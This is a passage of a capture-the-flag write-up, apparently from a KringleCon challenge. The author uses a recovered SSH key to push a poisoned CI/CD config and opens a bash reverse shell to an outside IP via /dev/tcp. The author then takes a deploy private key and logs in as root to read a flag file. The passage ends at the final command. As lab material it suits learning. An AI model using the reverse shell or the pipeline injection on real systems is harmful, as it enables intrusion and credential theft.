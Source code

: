         ~

So we have a private key, hope they didn't change it! You need to create a .ssh folder in your home folder, `touch` a file with the right ssh key nomenclature and `chmod` it with 600 permission. You can confirm the key encryption:

        grinchum-land:~/.ssh$ ssh-keygen -l -f id_ed25519 
        256 SHA256:ojIb4frmXHjoRXfHesxSv1kvvb/CYr713mC4U49WOPY sporx@kringlecon.com (ED25519)

With your key correctly set up you can `clone` another time but with different permission that will allow you to push some change.

        git clone git@gitlab.flag.net.internal:/rings-of-powder/wordpress.flag.net.internal.git

Modify the yaml and prepare to push but first some more setup:

        git config --global user.name "anonymous"
        git config --global user.email "anonymous@anonymous.production"
        git add --all
        git commit -m "Added a reverse shell for more convenience"
        git push

If you are like me you are trying a bunch of command until you finally find a command to get you a reverse shell, something like this:

        bash -i >& /dev/tcp/172.18.0.99/80 0>&1

Then you begin looking for the the flag in the environment variable, going through all the folders, reading the source code and trying to escape the container, until you are stuck and ask for help. I was told by a [a friendly hacker named Minkowski](https://twitter.com/minkowski) to look at the CI/CD script more closely:

        script:
        - rsync -e "ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy" --chown=www-data:www-data -atv --delete --progress ./ root@wordpress.flag.net.internal:/var/www/html

So it use ssh and a private key, I then tried to log at the server but I keep getting denied and I read the debugging info not understanding what was wrong:

        ssh -Tvvv root@wordpress.flag.net.internal

Until [an helpful hacker who was patiently helping me debugging my command](https://erichogue.ca/) told me I didn't have the same private key as him. I had not realized it was a different private key. xD

I then went back to the server and grabbed the private key, `chmod`ed it and logged to the worpress server:

        grinchum-land:~/wordpress.flag.net.internal$ ssh -i ~/.ssh/pkey  root@wordpress.flag.net.internal
        Linux wordpress.flag.net.internal 5.10.51 #1 SMP Mon Jul 19 19:08:01 UTC 2021 x86_64

        The programs included with the Debian GNU/Linux system are free software;
        the exact distribution terms for each program are described in the
        individual files in /usr/share/doc/*/copyright.

        Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
        permitted by applicable law.
        root@wordpress:~# cd /
        root@wordpress:/# ls
        bin  boot  dev  etc  flag.txt  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
        root@wordpress:/# cat flag.txt
